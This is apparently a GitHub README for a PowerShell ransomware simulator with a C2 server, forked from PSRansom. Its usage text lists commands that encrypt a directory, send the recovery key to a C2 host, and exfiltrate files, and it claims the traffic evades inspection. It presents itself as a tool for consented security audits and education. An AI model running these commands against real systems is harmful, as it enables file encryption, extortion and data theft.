<p align="center"><img width=750 alt="Farewell Ransom" src="https://github.com/BZHack/Farewell-Ransom/blob/main/misc/RUCyberArmy.jpg"></p>

# Farewell Ransom
**Farewell Ransom** is a PowerShell Ransomware Simulator with C2 Server capabilities. This tool helps you simulate encryption process of a generic ransomware in any system on any system with PowerShell installed on it. Thanks to the integrated C2 server, you can exfiltrate files and receive client information via HTTP. 

It's a fork of the great work of JoelGMSec https://github.com/JoelGMSec/PSRansom

All communication between the two elements is encrypted or encoded so as to be undetected by traffic inspection mechanisms, although at no time is HTTPS used at any time.

# Requirements
- PowerShell 4.0 or greater


# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/BZHack/Farewell-Ransom
```


# Usage
```
.\frsm.ps1 -h

   ##################
   ##################
   ##################
                                                              
   "  ----------------- by @RUCyberArmy ----------------  "

 Info:  This tool helps you simulate encryption process of a
        generic ransomware in PowerShell with C2 capabilities

 Usage: .\frsm.ps1.ps1 -e Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server
          Use -x to exfiltrate and decrypt files on C2Server

        .\frsm.ps1 -d Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Usage safe: .\frsm.ps1 -se Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server
          Use -x to exfiltrate and decrypt files on C2Server

        .\frsm.ps1 -de Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Extra parameter: -full , to change wallpaper and show a pop-up         


 Warning: All info will be sent to the C2Server without any encryption
          You need previously generated recovery key to retrieve files

```

### The detailed guide of use can be found at the following link:

TBD


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This tool has been created and designed from scratch by Joel Gámez Molina // @JoelGMSec

BZHack just forked it !


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find us on Twitter as [@asso_bzhack](https://twitter.com/asso_bzhack) and on my blog [bzhack.bzh](https://www.bzhack.bzh/).

# TO DO

- Make encryption between client en C2Server
- Add better handle of exfill
- Add control on decrypt to make sure all files are recovered before erasing encrypted source (this is not an issue if you use the proper recovery key)
